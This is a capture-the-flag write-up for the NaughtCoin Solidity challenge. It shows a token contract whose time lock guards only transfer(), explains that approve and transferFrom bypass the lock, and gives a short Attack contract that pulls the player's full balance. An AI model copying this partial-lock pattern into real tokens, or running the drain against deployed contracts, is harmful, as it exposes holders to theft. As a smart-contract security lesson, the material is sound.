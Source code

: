 <div align="center">

# NaughtCoin

</div>



**NaughtCoin (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

- NaughtCoin mints the entire supply to `player` and intends to lock that account for 10 years by applying `lockTokens` to `transfer()`.  
- The token follows ERC20 but **only** the `transfer` function is protected by the modifier — other ERC20 paths (allowance / `transferFrom`) are unguarded.  
- **So:** `player` cannot call `transfer(...)` until `timeLock` passes, but `player` can still `approve(...)` an attacker and that attacker can call `transferFrom(player, ...)` immediately.

2. **Vulnerability Highlight (key part)**


```solidity
// protected transfer — only this path is locked for player
function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
    super.transfer(_to, _value);
}
```






## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface INaughtCoin {
    function player() external view returns (address);
}

interface Ierc20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
}

contract Attack {
    function pwn(Ierc20 coin) external {
        INaughtCoin naught = INaughtCoin(address(coin));
        address playerAddr = naught.player();
        uint256 bal = coin.balanceOf(playerAddr);
        coin.transferFrom(playerAddr, address(this), bal);
    }
}

```

---


